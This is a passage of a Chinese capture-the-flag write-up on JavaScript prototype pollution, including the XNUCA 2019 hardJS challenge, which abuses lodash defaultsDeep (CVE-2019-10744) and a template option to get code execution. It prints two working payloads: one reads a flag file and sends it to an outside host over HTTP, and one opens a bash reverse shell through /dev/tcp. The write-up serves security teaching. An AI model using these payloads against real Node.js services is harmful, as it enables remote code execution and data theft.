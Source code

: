 最终的payload

```
{"__proto__":{"sourceURL":"test\r\nvar require = global.require || global.process.mainModule.constructor._load;
var result = require('child_process').execSync('cat /flag_thepr0t0js').toString();
var req = require('http').request(`http://yourvps/${result}`);req.end();\n"}}
```

#### XNUCA hardJS

[题目源码](https://github.com/NeSE-Team/OurChallenges/tree/master/XNUCA2019Qualifier/Web/hardjs)

##### 后端原型链污染

server.js在内容大于5的时候有一个合并的逻辑，调用的是loadsh的defaultDeep
这里有一个CVE-2019-10744，版本也符合，说明存在原型链污染

```javascript
for(var i=0;i<raws.length ;i++){
            lodash.defaultsDeep(doms,JSON.parse( raws[i].dom ));
            var sql = "delete from `html` where id = ?";
            var result = await query(sql,raws[i].id);
        }
```

调试了一波发现，这个漏洞直接使用`__proto__`并不能触发，使用了safeGet，过滤掉了`__proto__`,但是没有过滤`constructor`，constructor其实就是指向类的一个引用，那么constructor的prototype属性其实就是`__proto__`属性

这里我们可以造成原型链污染，只要寻找一个可利用的点就行，后端来说对于模板引擎经常会有可以利用的点，debug调一下，沿着调用链一直跟进

![](https://litch1-1256735124.cos.ap-beijing.myqcloud.com/20200213233445.png)

发现

![](https://litch1-1256735124.cos.ap-beijing.myqcloud.com/20200213233802.png)

这里就是我们可以利用的点，outputFunctionName来源于opts也就是我们传入模版渲染的值，我们在中间拼接入代码便可以造成RCE

最后的payload（反弹shell）

```json
{
    "content": {
        "constructor": {
            "prototype": {
            "outputFunctionName":"_tmp1;global.process.mainModule.require('child_process').exec('bash -c \"bash -i >& /dev/tcp/xxx/xx 0>&1\"');var __tmp2"
            }
        }
    },
    "type": "test"
}
```

##### 前后端结合利用
